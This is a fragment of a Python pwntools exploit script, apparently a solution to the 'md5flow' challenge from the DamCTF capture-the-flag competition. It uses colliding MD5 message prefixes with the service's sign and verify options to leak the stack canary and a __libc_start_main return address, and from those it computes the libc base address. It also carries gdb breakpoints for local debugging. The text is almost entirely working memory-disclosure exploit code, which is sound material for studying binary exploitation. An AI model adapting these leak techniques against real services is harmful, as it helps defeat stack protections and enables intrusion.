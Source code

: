 ```py


test_suffix()


def sign(msg):
  p.sendlineafter(b'option: ', b'0')
  p.sendafter(b'Message: ', msg)
  p.recvuntil(b'Signature: ')
  sig = p.recvline(keepends=False)
  p.recvuntil(b'For: ')
  msg = p.recvuntil(msg_end := b'\nPick an')[:-len(msg_end)]
  return sig, msg


def verify(msg, sig):
  p.sendlineafter(b'option: ', b'1')
  p.sendafter(b'Message: ', msg)
  p.sendlineafter(b'Signature: ', sig)
  p.recvuntil(b'Verified message: ')
  msg = p.recvuntil(msg_end := b'\nPick an')[:-len(msg_end)]
  return msg


dbg = 0
local = 0
if local:
  p = process(['./ld-2.27.so', '--library-path', '.', './md5flow'], aslr=bool(1-dbg))
  if dbg:
    gdb.attach(p, '''
# check canary
b *0x000015555512a046
# b *0x0000155555401046
# menu ret
b *0x000015555512a062
c
''')
else:
  p = remote('chals.damctf.xyz', 31656)



def run():
  # get canary
  E = b'E' * 9
  s = make_suffix(256, E)
  m1 = c1 + s
  sig, _ = sign(m1)

  v = verify(c2 + s, sig)
  canary = b'\0' + v.split(E)[1][:7]
  print(hex(u64(canary)))

  # get libc_start_main return address
  F = b'F' * 16
  s = make_suffix(328, b'F' * 16)
  sig, _ = sign(c1 + s)

  v = verify(c2 + s, sig)
  libc_ret = u64(v.split(F)[1].ljust(8, b'\0'))
  libc_addr = libc_ret - LIBC.symbols.__libc_start_main - 231
  log.info(f'libc_ret  0x{libc_ret:016x}')
  log.info(f'libc_addr 0x{libc_addr:016x}')
```